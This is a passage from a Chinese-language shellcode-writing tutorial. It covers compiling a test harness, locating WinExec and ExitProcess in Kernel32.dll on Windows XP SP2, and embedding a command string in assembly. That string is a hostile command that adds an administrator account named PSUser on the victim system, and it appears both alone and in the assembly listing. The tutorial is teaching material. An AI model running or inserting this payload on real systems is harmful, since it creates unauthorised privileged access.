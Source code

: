 我们现在需要编译已经修改好的 shellcodetest.c 程序以让它可以执行我们的 shellcode.用如下命令完成:

> gcc -o shellcodetest shellcodetest.c

生成可执行程序”shellcodetest.exe”.

现在应该可以执行这个程序了,然后它会执行你的 shellcode.用这个程序来明白这被设计好的 shellcode 仅仅简单地睡眠 5 秒,然后将会退出-同时可能发生 core dump,但是在这个阶段不关心这个问题.

> ./shellcodetest.exe   (sleeps for 5 seconds)   (then exits - and may core dump)

恭喜！你已经写出,编译,去除,格式化,同时已经测试了你的第一段 shellcode 代码!

现在让我们设计一些真正可以看的到的东西吧！

## 0x02 命令执行 shellcode

* * *

这个教程不过是第一个教程的扩展教程;

然而,除了设计简单地睡眠 5 秒的 shellcode 外,在受害者系统上它调用 WinExec 函数来创建一个新的有管理权限的用户.

这个教程也教你定义和定位字符串常量的方法.在这种情况下你想执行的字符串命令.也将干净利落地退出进程而不会产生一个 core dump.

这个教程的一些内容是以在 http://www.vividmachines.com/shellcode/shellcode.html 中被摘取出的信息为基础而讲述的.

我们的目的

我们的 shellcode 将定位我们的命令行字符串并通过调用 WinExec 函数在受害者系统上创建一个本地管理用户.要提醒注意的是这个教程将会在你的系统上创建一个管理账户,所以记得删掉它否则你可能发现你已经因为这个账户的创建而被他人黑了.

我们需要什么函数,它们在哪?

从编程经历中（或至少是通过谷歌）,我们知道在一个 windows 系统上执行一个命令我们需要调用 WinExec 函数,同时为了干净利索地退出一个进程我们需要调用 ExitProcess 函数.这两个函数都可以在 Kernel32.dll 中被找到.

为了定位函数的地址,我们将使用 arwin,正如我们在上一个教程中做的那样.如下所示：

> ./arwin.exe Kernel32.dll WinExec arwin - win32 address resolution program - by steve hanna - v.01     WinExec is located at 0x7c8615b5 in Kernel32.dll

WinExec 函数位于 Kernel32.dll 中的 0x7c8615b5 地址上

> ./arwin.exe Kernel32.dll ExitProcess     arwin - win32 address resolution program - by steve hanna - v.01

ExitProcess 位于 Kernel32.dll 中的 0x7c81ca82 地址上你得到的地址或许和我的不同.这取决于操作系统和服务包.我正使用 WindowsXP SP2.这意味着你的 shellcode 将只会在相同的操作系统和你使用的服务包上正常工作因为我们已经硬编码了函数的内存地址.这甚至可能是因你已经安装了补丁文件而略有不同的.这是更高级的可以被用来动态定位 Kernel32.dll 和函数地址的技术;然而,那将会在之后的教程中细说.

定义并定位字符串常量

下面即是我们想在我们的 shellcode 中定义的字符串常量,我们将执行的命令来创建一个用户名是”PSUser”密码是”PSPasswd”的账户

> 'cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser'

下面小段代码示范了在我们的代码末尾定义一个字符串常量,同时在栈顶上定位字符串的方法;

```
+--------------- [snip] ---------------+
  jmp short GetCommand;Jump to where our string is located ("GetCommand" label below)
  CommandReturn:;Create a label we can call to return here.
  pop ebx;the "call" operation below has pushed its return address onto the stack, which we have designed to point to our string - so pop the address of the string off the stack and into ebx.
;At this point, ebx points to our string.
+--------------- [snip] ---------------+
GetCommand: ;Create the "GetCommand" label where our string is located
call CommandReturn ;"call" is like jump, but also pushes the return address (next instruction after call) onto the stack. Since our string is defined immediately after this instruction, the return address points to the address of our string.”call”
db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser";Write the raw bytes into the shellcode that represent our string.        
db 0x00 ;Terminate our string with a null character.
```